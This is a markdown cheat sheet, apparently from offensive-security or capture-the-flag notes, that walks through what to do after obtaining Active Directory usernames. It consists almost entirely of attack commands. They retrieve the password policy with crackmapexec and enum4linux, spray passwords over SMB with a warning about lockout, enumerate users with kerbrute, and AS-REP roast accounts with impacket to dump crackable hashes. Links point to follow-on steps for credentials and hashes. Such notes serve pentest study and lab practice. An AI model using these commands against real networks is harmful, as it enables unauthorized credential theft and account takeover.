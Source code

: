 # Got Username
## Get Password Policy
```bash
crackmapexec 10.10.10.10 -u 'username' -p 'password' --pass-pol 
```

```bash
enum4linux -u 'username' -p 'password' -P <ip>
```

## Password Spray
Test password against usernames in order. Won't brute force each password against each user.

```bash
crackmapexec smb 10.10.10.10 -u users.txt -p passwords.txt --no-bruteforce
```

Test each password against each username. Careful of lockout policy.

```bash
crackmapexec smb 10.10.10.10 -u users.txt -p passwords.txt
```

Got Credentials: [Next](got-credentials.md)

## Testing Usernames
```bash
kerbrute userenum -d domain.local --dc domain.local users.txt
```

## ASREPRoast
```bash
impacket-GetNPUsers domain.local/ -usersfile users.txt -format hashcat -outputfile hashes.asreproast
```

Got Hash: [Next](cracking-hashes.md#tgt)

